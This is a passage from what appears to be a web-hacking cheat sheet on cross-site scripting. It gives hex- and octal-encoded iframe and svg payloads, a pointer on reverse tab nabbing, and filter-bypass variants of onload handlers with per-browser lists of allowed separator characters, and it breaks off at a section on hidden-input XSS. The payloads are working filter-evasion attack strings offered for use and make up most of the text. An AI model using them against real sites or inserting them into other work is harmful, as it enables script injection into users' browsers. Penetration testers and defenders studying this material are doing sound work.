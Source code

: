 ```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

```javascript
<a target="_blank" rel="opener"
```

If you can inject any URL in an arbitrary **`<a href=`** tag that contains the **`target="_blank" and rel="opener"`** attributes, check the **following page to exploit this behavior**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### on Event Handlers Bypass

First of all check this page ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) for useful **"on" event handlers**.\
In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**
